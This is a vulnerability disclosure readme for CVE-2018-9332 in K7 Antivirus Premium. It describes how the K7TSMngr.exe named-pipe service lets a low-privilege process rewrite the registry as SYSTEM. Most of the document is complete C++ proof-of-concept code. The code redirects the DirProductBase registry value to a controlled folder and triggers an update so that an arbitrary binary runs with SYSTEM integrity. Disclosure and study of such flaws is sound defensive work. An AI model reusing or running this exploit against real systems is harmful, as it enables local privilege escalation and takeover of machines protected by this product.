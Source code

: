 # CVE-2018-9332

# Product / Component Affected

* **Product**: *K7 Antivirus Premium 15.1.0.53* 
* **Component**: *K7TSMngr.exe 16.0.0.70*

# K7TSMngr.exe Pipe Handler Background
*See description in [CVE-2018-8724](../CVE-2018-8724/readme.md)*

# Details
Following on from the background piece above regarding the Pipe, the handler for the function id 0x10044 allows the remote call to perform registry modification from the K7TSMngr.exe service (which runs with SYSTEM integirty). As you can call this from a LOW privileged process, you have good control of the entire registry which makes LPE relatively trivial.

The handler routine eventually calls sub_40C9E0 which is a simple wrapper over sub_41EA90 which is where all the registry interaction occurs.

The PoC code overwrites the value of DirProductBase in the K7’s registry key in HKLM/SOFTWARE. This key is used regularly when building up paths of executables to run, such as the process used to check for updates (K7TSHlpr.exe). Once that key is overwritten with a location that can be controlled, the K7TSMngr will look in the new location for this binary and will run it from there. Therefore, we just set the string to something we control, make the appropriate binary, then call pipe with the ID 0x10010, and this triggers an update to occur, this launching our binary as SYSTEM. All of which can be done from a LOW integrity process.

While the PoC demonstrates this via K7's own infrastructure, there are many other keys you can play with to achieve the same effect.

# PoC Code
For this PoC, put the binary you want to launch as SYSTEM (in session 0) in the following path and name it as K7TSHlpr.exe, it doesn't have to be the real one, just have that name:
* C:\\test\\hacked\\K7TSHlpr.exe

```C++
#include <Windows.h>
#include <stdio.h>

#define _CRT_SECURE_NO_WARNINGS

typedef struct _unk1
{
	DWORD dwMagic;
	DWORD dwSomeMagic;
	DWORD dwInSize;
	DWORD field_c;
	DWORD dwFunctionId;
	DWORD dwInputDataSize;
	DWORD dwOutputDataSize;
} unk1;

HANDLE g_hPipe = INVALID_HANDLE_VALUE;

BOOL InitPipe()
{
	g_hPipe = CreateFileA("\\\\.\\pipe\\K7TSMngrService1", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
	if (g_hPipe == INVALID_HANDLE_VALUE)
	{
		printf("CreateFileW Failed: 0x%08x\r\n", GetLastError());
		return FALSE;
	}

	return TRUE;
}

BOOL CallPipeFunction(DWORD dwFunctionId, PBYTE pInput, DWORD dwInSize, PBYTE pOutput, DWORD dwOutSize)
{
	unk1 u1 = { 0 };
	u1.dwMagic = 0x4B375453;
	u1.dwSomeMagic = 0x1010;
	u1.dwInSize = 28;
	u1.dwFunctionId = dwFunctionId;
	u1.dwInputDataSize = dwInSize;

	DWORD dwBytesWritten = 0;
	if (!WriteFile(g_hPipe, &u1, sizeof(u1), &dwBytesWritten, NULL))
	{
		printf("WriteFile 1 Failed: 0x%08x\r\n", GetLastError());
		return FALSE;
	}

	if (!WriteFile(g_hPipe, pInput, dwInSize, &dwBytesWritten, NULL))
	{
		printf("WriteFile 2 Failed: 0x%08x\r\n", GetLastError());
		return FALSE;
	}

	return TRUE;
}

//
// This vulnerability demonstrates achieveing SYSTEM runtime via setting arbitary registry key 
// modification by a SYSTEM level process. I have specifically targetted K7 because it 
// demonstrates the point, however there are many placed in the Generate Windows Registry which 
// do the same thing
//
int Vuln_RegistryRewriting_K7UpdateKey()
{
	DWORD dwSize = 0x4000;
	PCHAR pszData = (char*)VirtualAlloc(NULL, dwSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

	//
	// Setup our pipe connection
	//
	if (!InitPipe())
	{
		printf("Error: InitPipe failed\r\n");
		return 0;
	}

	//
	// This will modify the following registry key's DirProductBase to point to our hacked path. 
	// This path is completely controllable.
	//
	snprintf(pszData, dwSize, "[%s]\r\n\"%s\"=\"%s\"\r\n", "HKLM\\SOFTWARE\\K7 Computing\\K7TotalSecurity", "DirProductBase", "C:\\test\\hacked");

	//
	// This will perform the actual modification to the registry key via the K7TSMngr service.
	//
	if (!CallPipeFunction(0x10044, (PBYTE)pszData, dwSize, NULL, 0))
	{
		printf("Error: CallPipeFunction failed");
		return 0;
	}

	//
	// This kicks off an update process and will run any binary called K7TSHlpr.exe from the folder 
	// in DirProductBase. Therefore we have just created a process with SYSTEM integrity in Session
	// 0. Fab :)
	//
	InitPipe();
	BYTE data[0x10] = { 0 };
	if (!CallPipeFunction(0x10010, data, sizeof(data), NULL, 0))
	{
		printf("Error: Kicking off an update failed\r\n");
		return 0;
	}

	return 1;
}


int main(int argc, char** argv)
{
    Vuln_RegistryRewriting_K7UpdateKey();
	return 0;
}

```